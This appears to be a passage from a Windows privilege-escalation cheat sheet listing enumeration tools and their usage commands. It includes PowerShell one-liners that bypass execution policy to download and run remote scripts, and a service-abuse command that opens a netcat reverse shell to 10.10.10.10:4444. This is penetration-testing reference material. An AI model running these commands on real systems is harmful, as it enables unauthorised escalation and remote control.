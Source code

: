 # Tools
* [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)
```
# Enumeration
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

# automatic exploit
Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
```
* [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
* [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
```
* [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
* [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
```
* [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
* [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
* [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
* [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)
```
Seatbelt.exe -group=all -full
Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
```
* [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
* [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
```
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```
* [winPEAS - Windows Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
```
winpeas.exe
```
* [Windows Exploit Suggester - Next Generation (WES-NG)](https://github.com/bitsadmin/wesng)
```
# First obtain systeminfo
systeminfo
systeminfo > systeminfo.txt
# Then feed it to wesng
python3 wes.py --update-wes
python3 wes.py --update
python3 wes.py systeminfo.txt
```
* [PrivescCheck - Privilege Escalation Enumeration Script for Windows](https://github.com/itm4n/PrivescCheck)